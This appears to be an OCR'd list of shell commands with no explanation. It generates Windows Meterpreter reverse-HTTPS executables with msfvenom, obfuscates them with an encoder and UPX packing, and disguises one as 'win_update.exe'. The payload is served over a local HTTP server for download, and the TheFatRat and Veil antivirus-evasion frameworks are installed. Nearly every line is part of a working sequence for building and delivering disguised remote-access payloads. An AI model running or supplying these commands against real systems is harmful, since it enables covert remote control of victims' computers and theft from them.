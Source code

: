 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe


msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/win_update.exe


sudo apt install upx -y

upx --best --ultra-brute payload_encoded.exe


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh

sudo ./fatrat

cd ~
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
sudo ./config/setup.sh --force

sudo veil

sudo ln -s /home/ray_king11/Veil/Veil.py /usr/local/bin/veil


sudo dpkg --add-architecture i386
sudo mkdir -pm755 /etc/apt/keyrings
sudo wget -O /etc/apt/keyrings/winehq-archive.key https://dl.winehq.org/wine-builds/winehq.key


sudo wget -NP /etc/apt/sources.list.d/ https://dl.winehq.org/wine-builds/debian/dists/bookworm/winehq-bookworm.sources

sudo apt update

sudo apt install --install-recommends winehq-stable -y






